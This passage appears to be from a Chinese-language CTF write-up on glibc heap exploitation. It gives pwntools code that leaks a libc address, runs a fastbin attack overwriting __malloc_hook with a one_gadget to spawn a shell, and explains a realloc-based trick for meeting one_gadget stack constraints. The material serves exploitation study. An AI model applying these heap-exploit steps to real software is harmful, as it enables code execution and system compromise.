 ```python
p.sendline()
malloc(0x170,"X"*0x100+p64(0)+p64(0x71))	        # for leak	
show()							#leak fd

p.recvuntil('2 : ')
fd=u64(p.recv(6).ljust(8,'\x00'))
print "[*]leak fd="+hex(fd)
libc_base=fd-0x3c4b78
print "[*]leak libc base="+hex(libc_base)

##### fastbin attack
malloc_hook=0x003C4B10+libc_base-0x23 			#local libc
one_gadget=0xf02a4+libc_base				#local libc
#malloc_hook=0x001b0768+libc_base-0x23 
#one_gadget=0x3a80e+libc_base

free(4)
free(1)
malloc(0x170,"E"*0x100+p64(0)+p64(0x71)+p64(malloc_hook))
malloc(0x65,"Y"*0x20)
malloc(0x65,p64(0)*2+"0"*3+p64(one_gadget)) #fastbin attack

malloc(0x65,"Z"*0x20)

p.interactive()

```

***如果one_gadget全部都不可用怎么办？***

one_gadget无非是需要满足合适的栈环境。

我们可以利用realloc函数前面的几个push来对栈环境进行调整。至于为什么要用realloc，其实很好理解。

realloc_hook和malloc_hook是相邻的，我们首先realloc的地址写入malloc_hook,劫持程序流执行realloc的push函数，执行完push，也就将栈环境调整了。剩下的只需要将one_gadet放入realloc_hook，就可以getshell了。

![YEFgVn](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/YEFgVn.png)

```python
##### fastbin attack
malloc_hook=0x003C4B10+libc_base-0x23 			#local libc
one_gadget=0x4526a+libc_base				#local libc
realloc=0x846c0+libc_base
#malloc_hook=0x001b0768+libc_base-0x23 
#one_gadget=0x3a80e+libc_base

free(4)
free(1)
malloc(0x170,"E"*0x100+p64(0)+p64(0x71)+p64(malloc_hook))
malloc(0x65,"Y"*0x20)
malloc(0x65,p64(0)+"0"*3+p64(one_gadget)+p64(realloc+0x2)) #fastbin attack
```
